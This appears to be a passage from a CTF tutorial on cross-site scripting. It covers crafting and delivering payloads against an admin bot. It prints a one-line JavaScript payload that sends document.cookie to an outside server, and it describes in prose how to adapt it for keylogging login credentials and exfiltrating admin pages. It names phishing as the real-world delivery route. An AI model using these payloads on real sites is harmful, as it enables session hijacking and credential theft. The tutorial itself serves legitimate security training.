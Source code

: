 There is [a list on OWASP.org](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) that contains dozens of different ways to bypass various XSS filters.

## Payloads
Once you have found a location where you can insert Javascript, almost all the work is done. The last thing you need to do is craft a payload that will give you what you want. Most CTF competitions will have a bot with a cookie in their browser, and direct you to steal that cookie. 

Since someone else will be running the Javascript that you provide, you have to find a way to exfiltrate the data. Printing to the console or on the screen will only show up for them. You must have them interact with another website in order to capture the data. The payload that I most commonly use is below:

```
var myImage = new Image(100, 200); myImage.src = 'https://justinapplegate.me/my_flag?is='+escape(document.cookie);
```

This simple one line script initializes an image object and sets the source for the image to my website with the cookie at the end. It automatically sends out an HTTP requests to the source link. Since I can look at all requests made to my webserver (even if they don't exist), all I need to do is refer to those logs and I'll see someone requested `https://justinapplegate.me/my_flag?is=flag{the_flag_is_here}`, thereby giving me the flag. 

This requires that you have access to your own website. If you don't have your own site, there are other sites that you can use for this purpose, such as ?

In the case that you want to steal something else, such as credentials that someone types into a login form, or copy the contents of a webpage that only admins can visit, you can modify this payload so the text sent in the URL is what you want. For credential stealing, you could create a payload that sends a url with the current value of an input tag each time a key is pressed. For a separate webpage's content, you could create an HTTP request in Javascript that requests the page and includes the entire content in the URL.

### Deploying the Payload
You've found a reflection point, been able to insert Javascript, and you've crafted your own payload to steal cookies, credentials, etc. Now you need to find a way to get the victim to run the code. Whether it's stored or reflected XSS, you'll need your victim to access a specific webpage. In real life, this would normally be through a phishing attempt or by exploiting an XSS vulnerability on another site to redirect them. In CTFs, they typically have an admin bot that will visit whatever link you submit to it, thereby making your payload deployment very easy. 


### Practice 
[XSS Game](http://xss-game.appspot.com/)
